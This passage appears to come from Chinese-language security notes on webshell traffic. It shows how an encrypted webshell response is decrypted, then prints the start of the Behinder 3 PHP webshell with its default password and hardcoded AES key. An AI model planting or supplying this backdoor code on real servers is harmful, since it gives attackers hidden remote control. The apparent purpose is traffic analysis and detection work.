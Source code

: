 ![img](./images/202211091042813.png)

流量AES加解密示例：

```
# 密钥
key = 93edbafac50eb64c

# 密文
cipher = pu+VEA885HAovMSbbH5wj3cXwQkpnSRYpZy8fAWrRA3ETLuyZqRQSm6koxDp1mKeTYLUlMk59hK6lOAbj2Hh/vxXzVyn/4uPlKV7WeMOeRGLhBQMou01R+TJLP7NTtVn

# 通过在线工具解密
# 明文
{"status":"c3VjY2Vzcw==","msg":"YmMzYjNhNzktY2Q4NC00ZGUwLWJjYzUtMjQ0NmY4NzUxNjE1"}
# 再通过base64解密
{"status":"c3VjY2Vzcw==","msg":"bc3b3a79-cd84-4de0-bcc5-2446f8751615"}
```

### Behinder 冰蝎3

Webshell代码：

```php
# behinder3.php，密码rebeyond

<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
```
